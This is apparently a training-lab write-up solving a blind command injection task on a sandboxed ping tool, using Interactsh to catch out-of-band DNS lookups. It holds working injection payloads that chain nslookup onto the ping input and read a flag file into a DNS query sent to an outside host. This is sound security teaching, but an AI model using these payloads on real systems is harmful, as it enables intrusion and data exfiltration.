

# Task 3. Admins wary. Flag hunt on!

## **Task Description**


### Admins trust you about as much as they trust a cat with a fishbowl! Can you still fish out that flag?


After previous exploits, trust is scarce. Only trusted admins will receive scan results. Can you still find the flag?

Even with our best efforts, vulnerabilities linger. Your challenge? Probe the tool's defenses, exploit its flaws, and unveil hidden flags.

Challenge

This challenge uses a tool to ping specified hosts, aiming to exploit a command injection vulnerability in the user-supplied domain. Since the application does not provide an output, you need to use the nslookup command to send the flag file's content to Burp Collaborator.

Target Application: Asset Discovery tool \
Initial Endpoint:

`http://web0x09.hbtn/app4/`

Useful instructions:

1. Log into Asset Discovery tool.
2. ping is vulnerable.
3. We can try and give it an input (google.com for example).
4. Use the nslookup command
5. Flag Location "/var/www/3-flag.txt"

Repo:

GitHub repository: dlh-cyber_security \
Directory: web_application_security/0x09_command_injection \
File: 3-flag.txt


## **Solution**


- Start sandbox `cyber_websec_0x09`.
- Start openvpn.
- Put IP address of the sandbox in `/etc/hosts` file.
```bash
echo "10.42.129.101 web0x09.hbtn" | sudo tee -a /etc/hosts
sudo vim /etc/hosts
ping -c 2 web0x09.hbtn
```

## **Task 3: Blind command injection via DNS exfiltration**

**Target:** `http://web0x09.hbtn/app4/`\
**Flag location:** `/var/www/3-flag.txt`\
**Technique:** Blind OS Command Injection with DNS-based exfiltration.

Unlike previous tasks, the application does not display command output. We need to make the server transmit information through a DNS lookup that we can observe in Burp Collaborator.

Our approach:

1. Verify that injected commands generate DNS requests.
2. Read and encode the flag into a DNS-compatible hostname.
3. Capture the DNS query in Burp Collaborator.
4. Extract the flag.

### **Step 1: Generate a Burp Collaborator domain**

In **Burp Suite**:

1. Open the **Collaborator** tab (or **Burp > Burp Collaborator client**, depending on your version).
2. Click **Copy to clipboard** to generate a unique Collaborator payload.
3. Keep the Collaborator client open so we can poll for DNS interactions.

The generated domain should resemble:

```
xxxxxxxxxxxxxxxx.oastify.com
```

We'll use this domain as the destination for an injected `nslookup` command.





Huston, we have a problem: **Burp Suite Community Edition v2026.9** doesn't have the Collaborator feature.

> Burp Suite Professional only - upgrade and accelerate your testing


We can still complete **Task 3** using a free alternative called **Interactsh**, which supports DNS interaction monitoring.

### **Step 1: Generate a free DNS monitoring domain**

1. Open [https://app.interactsh.com](https://app.interactsh.com)
2. Locate the automatically generated interaction domain, typically ending in `.oast.fun`.
3. Copy the complete domain.
4. Keep the Interactsh browser tab open so you can see incoming DNS requests.

Interactsh is an open-source, DNS-capable alternative maintained by ProjectDiscovery.


The generated Interactsh domain:

```
irkajbkxlvclhhuclkryj80gtzghug1s1.oast.fun
```

## **Task 3: Step 2, Verify blind command injection**

We now have our DNS monitoring endpoint:

`irkajbkxlvclhhuclkryj80gtzghug1s1.oast.fun`

Before extracting the flag, let's confirm that the vulnerable server can execute `nslookup` and generate outbound DNS queries.

### **Payload to execute**

Open

`http://web0x09.hbtn/app4/`

and submit this in the **Ping** input:

```
127.0.0.1;nslookup test.irkajbkxlvclhhuclkryj80gtzghug1s1.oast.fun
```

### **What this does**

1. `127.0.0.1` provides a legitimate ping target.
2. `;` separates the original command from our injected command.
3. `nslookup` requests DNS resolution for our unique hostname.
4. Interactsh should record the DNS interaction if the command executes and outbound DNS resolution is permitted.


**Asset Discovery Output**:

```
Server:		10.42.0.2
Address:	10.42.0.2#53

Non-authoritative answer:
Name:	test.irkajbkxlvclhhuclkryj80gtzghug1s1.oast.fun
Address: 206.189.156.69
```


### **Interactsh result**

- **Request**:

```
;; opcode: QUERY, status: NOERROR, id: 52348
;; flags: cd; QUERY: 1, ANSWER: 0, AUTHORITY: 0, ADDITIONAL: 1

;; OPT PSEUDOSECTION:
; EDNS: version 0; flags: do; udp: 1232

;; QUESTION SECTION:
;test.irkajbkxlvclhhuclkryj80gtzghug1s1.oast.fun.	IN	 AAAA
```

- **Response**:

```
;; opcode: QUERY, status: NOERROR, id: 52348
;; flags: qr aa cd; QUERY: 1, ANSWER: 1, AUTHORITY: 2, ADDITIONAL: 2

;; QUESTION SECTION:
;test.irkajbkxlvclhhuclkryj80gtzghug1s1.oast.fun.	IN	 AAAA

;; ANSWER SECTION:
test.irkajbkxlvclhhuclkryj80gtzghug1s1.oast.fun.	3600	IN	A	206.189.156.69

;; AUTHORITY SECTION:
test.irkajbkxlvclhhuclkryj80gtzghug1s1.oast.fun.	3600	IN	NS	ns1.oast.fun.
test.irkajbkxlvclhhuclkryj80gtzghug1s1.oast.fun.	3600	IN	NS	ns2.oast.fun.

;; ADDITIONAL SECTION:
ns1.oast.fun.	3600	IN	A	206.189.156.69
ns2.oast.fun.	3600	IN	A	206.189.156.69
```


DNS exfiltration confirmed

The Interactsh DNS request confirms that our injected `nslookup` command successfully reached the external DNS monitoring endpoint.

We can now attempt to extract the flag.

## **Task 3: Step 3, Exfiltrate the flag via DNS**

### **Payload to execute**

Enter this into the **Ping** input:

```
127.0.0.1;nslookup $(awk '{print $2}' /var/www/3-flag.txt).irkajbkxlvclhhuclkryj80gtzghug1s1.oast.fun
```

### **How it works**

1. `awk '{print $2}' /var/www/3-flag.txt` reads the second whitespace-separated field from the flag file.
2. `$(...)` executes the command and substitutes its output into the hostname.
3. `nslookup` sends a DNS query containing the extracted value.
4. Interactsh captures the resulting DNS request.

For example, if the file contains:

```
FLAG_3 abcdef1234567890
```

The generated DNS query would resemble:

```
abcdef1234567890.irkajbkxlvclhhuclkryj80gtzghug1s1.oast.fun
```

The first DNS label contains the extracted flag value.


### **Interactsh result**

- **Request**:

```
;; opcode: QUERY, status: NOERROR, id: 23606
;; flags: cd; QUERY: 1, ANSWER: 0, AUTHORITY: 0, ADDITIONAL: 1

;; OPT PSEUDOSECTION:
; EDNS: version 0; flags: do; udp: 1232

;; QUESTION SECTION:
;9d9d51e801ed9c75fbf760559b299d0a.irkajbkxlvclhhuclkryj80gtzghug1s1.oast.fun.	IN	 AAAA
```


&#x20;Task 3 completed

Successfully exploited blind command injection and retrieved the flag through DNS exfiltration using Interactsh.

### **Flag obtained**

**FLAG_3**

`9d9d51e801ed9c75fbf760559b299d0a`

### **Technical summary**

| Property               | Result                     |
| ---------------------- | -------------------------- |
| Vulnerability          | Blind OS Command Injection |
| Target                 | `/app4/`                   |
| Injection operator     | `;`                        |
| Exfiltration technique | Out-of-band DNS (OAST)     |
| Command                | `nslookup`                 |
| Flag extraction        | `awk '{print $2}'`         |
| DNS monitoring         | Interactsh                 |
| Flag location          | `/var/www/3-flag.txt`      |
| Outcome                | Successful                 |

### **Successful payload**

```
127.0.0.1;nslookup $(awk '{print $2}' /var/www/3-flag.txt).irkajbkxlvclhhuclkryj80gtzghug1s1.oast.fun
```

### **Why this worked**

The application restricted access to command output, but it still allowed user-controlled input to execute shell commands.

By injecting `nslookup`, we transmitted the flag through a DNS query instead of relying on the application's HTTP response.

The Interactsh request contained:

```
9d9d51e801ed9c75fbf760559b299d0a.irkajbkxlvclhhuclkryj80gtzghug1s1.oast.fun
```

The first DNS label was the extracted flag value.

**Key insight:** Hiding command output does not eliminate command injection. An attacker can exploit outbound DNS or HTTP communication as an alternative channel for retrieving data.


### Step 4: Save the Flag

```bash
echo "9d9d51e801ed9c75fbf760559b299d0a" > 3-flag.txt
git add .
git commit -m "3-flag.txt"
git push
```

